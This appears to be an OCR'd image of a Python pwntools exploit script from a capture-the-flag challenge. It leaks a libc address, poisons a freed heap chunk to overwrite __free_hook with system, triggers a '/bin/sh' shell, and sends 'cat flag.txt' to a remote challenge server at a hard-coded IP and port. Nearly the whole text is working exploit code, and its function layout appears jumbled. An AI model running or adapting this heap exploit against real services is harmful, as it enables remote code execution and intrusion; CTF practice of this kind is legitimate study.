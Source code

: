 ```python 
    show(0)
    ru(")> ")
    leak = u64(re(8, 2))
    slog['leak'] = leak
    main_arean = leak - 96
    malloc_hook = main_arean - 0x10
    slog['mhook'] = malloc_hook
    
    libc = malloc_hook - pmhook
    puts = libc + pputs
    system = libc + psystem
    fhook = libc  + pfhook
    
    add(3, 0x40)
    edit(3, '/bin/sh\x00')

    dele(1)
    edit(1, flat(fhook))
    show(1)
    add(1, 0x20)
    add(2, 0x20)
    edit(2, flat(system))

    dele(3)
    sl("cat flag.txt")
    sl("cat bTAkUG9eCMgCbGMQbx8a")



context.os='linux'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
local = int(sys.argv[1])
context.arch='amd64'


if local:
    cn = process('./rbin')
    # cn = process(['./ld', './bin'], env={"LD_PRELOAD":"./libc"})
else:
    cn = remote("109.233.61.10", 11710)

libc2714 = 1
if libc2714:
    pmhook = 0x00000000003ebc30
    pputs  = 0x000000000080aa0
    pfhook = 0x00000000003ed8e8
    psystem = 0x04f550


re  = lambda m, t : cn.recv(numb=m, timeout=t)
recv= lambda      : cn.recv()
ru  = lambda x    : cn.recvuntil(x)
rl  = lambda      : cn.recvline()
sd  = lambda x    : cn.send(x)
sl  = lambda x    : cn.sendline(x)
ia  = lambda      : cn.interactive()
sla = lambda a, b : cn.sendlineafter(a, b)
sa  = lambda a, b : cn.sendafter(a, b)
sll = lambda x    : cn.sendlineafter(':', x)

exp()

```